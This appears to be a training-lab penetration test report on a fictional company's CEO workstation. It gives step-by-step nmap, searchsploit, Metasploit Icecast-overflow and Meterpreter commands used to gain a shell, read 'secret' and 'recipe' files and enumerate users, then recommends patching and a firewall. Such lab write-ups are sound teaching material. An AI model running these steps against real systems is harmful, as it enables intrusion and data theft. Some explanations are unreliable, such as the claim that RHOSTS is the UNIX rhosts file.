     GoodSecurity Penetration Test Report 

    Abdisalan-Firin@GoodSecurity.com

    DATE
    11/01/2021

 ### 1.0 High-Level Summary

GoodSecurity was tasked with performing an internal penetration test on GoodCorp’s CEO, Hans Gruber. An internal penetration test is a dedicated attack against internally connected systems. The focus of this test is to perform attacks, similar to those of a hacker and attempt to infiltrate Hans’ computer and determine if it is at risk. GoodSecurity’s overall objective was to exploit any vulnerable software and find the secret recipe file on Hans’ computer, while reporting the findings back to GoodCorp.
When performing the internal penetration test, there were several alarming vulnerabilities that were
identified on Hans’ desktop. When performing the attacks, GoodSecurity was able to gain access to his machine and find the secret recipe file by exploit two programs that had major vulnerabilities. The details of the attack can be found in the ‘Findings’ category.
       2.0 Findings

### Machine IP:
    192.168.0.20
### Hostname:
    MSEDGEWIN10
### Vulnerability Exploited:
    Exploit/windows/http/icecast_header

    Vulnerability Explanation:

The Vulnerability i found Icecast application running on 192.168.0.20 allows for a buffer overflow exploit and any attacker can remotely gain control of the victim’s system by overwriting the memory on the system utilizing the Icecast flaw, which writes past the end of a pointer array when receiving 32 HTTP headers. this will overwrite the saved instruction pointer and leave Icecast thinking one of the processor threads is still occupied by one of its methods; in reality, the running process is a malicious payload.

Some remote actions able to be executed are:

    File discovery
    Key logging 
    screen capture
    Privilege escalation to Administrator 
I also find this vulnerable to the following exploits:

    exploit/windows/local/ikeext_service
    exploit/windows/local/ms16_075_reflection

### Severity:

This exploit is very severe and Critical as it allows malicious actors to run any manor of arbitrary code on the host’s machine.

### Proof of Concept:

1. Perform a service and version scan using Nmap to determine which services are up and running: 
    - nmap -sS -sV -O 192.168.0.20

    - nmap: allows you to scan your network and discover not only everything connected to it.
    - -sS: its for TCP SYN port scan.
    - -sV: it is determine the version of the service running on port. 
    - -O: is the Remote OS detection using TCP/IP.

After scanning networks for vulnerabilities, we can execute the exploits that we know an organization is vulnerable to.

    Using nmap to scan the system to see any port open
 ![using nmap to scan the system](./Images/snep-1.PNG)


2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:
   
     searchsploit -t Icecast windows
<Result> (exploits/windows_x86/remote/16763.rb)

Now we’ll use a tool called SearchSploit to locally store a library of exploit information and the scripts used to execute the exploits.


    Icecast exploits
![icecast exploits](./Images/snap-2.PNG)


3. Start Metasploit and search for the Icecast module and load it for use.:
 
    >Msfconsole.
    
    >Search icecast.
    
    >Use 0.

MSFconsole provides a command line interface to access and work with the Metasploit.
The Metasploit is a computer security that provides information about security vulnerabilities and aids in penetration testing and IDS signature development. 

    starting metasploit and searching icecast
 ![RHOST setting](./Images/snap-x.PNG)
 
 ![Metasploits](./Images/snap-3.PNG)

 ![Metasploits](./Images/snap-y.PNG)

4. Set the `RHOST` to the target machine and run.

    set RHOSTS 192.168.0.20.
    run.

 Rhosts allows me to log in to a UNIX-based system from another computer on the same network.
 The rhosts file contains a list of hosts and user names that determines who can log in to a system remotely without a password

    Setting RHOST to IP adress
![RHOST setting](./Images/snap-4.PNG)


5. Search for the `secretfile.txt` on the target.

    meterpreter > search -f *secret*.

OR

    meterpreter > shell.

Meterpreter allows me to remotely take over the compromised system, having control of the file system, collect sensitive information such as credentials and secret files.
    
    The search of the secret 
![The search of secret file](./Images/snap-xy.PNG)

6. Search for the `recipe.txt` on the target and download the file:
    meterpreter > search -f *recipe*
    meterpreter > cd 'C:\Users/IEUser/Documents
    meterpreter > ls
    meterpreter > cat Drinks.recipe.txt
    meterpreter > cat user.secretfile.txt

    Search of the recipe
    ![search of the recipe](./Images/snap-6.PNG)
    
    ![search of the recipe](./Images/snap-f.PNG)

7. Use Meterpreter's local exploit suggester to find possible exploits.
    
    meterpreter> run post/multi/recon/local_exploit_suggestor

The system was also found to be vulnerable to the following exploits:
    
    exploit/windows/local/ikeext_service
    exploit/windows/local/ms16_075_reflection

    Using meterpreter for local exploit
   ![Using meterpreter for local exploit](./Images/snap-7.PNG)

8. Run a Meterpreter post script that enumerates all logged on users.
    
    run post/windows/gather/enum_logged_on_users
    
    
    Using meterpreter post script
  ![Using meterpreter post script](./Images/snap-8.PNG)

9. Running the sysinfo command
 
    system info
 ![sysinfo](./Images/snap-9.PNG)

 ![sysinfo](./Images/snap-a.PNG)
 
 ![sysinfo](./Images/snap-b.PNG)

### Overall Recommendations

Icecast exploit is old and the vulnerability can be fixed with a patch or Install the latest version of this and all other software.
Encrypt the files and folders that you want to keep a secret
Enable the windows firewall with rules to only explicitly allow traffic on needed ports.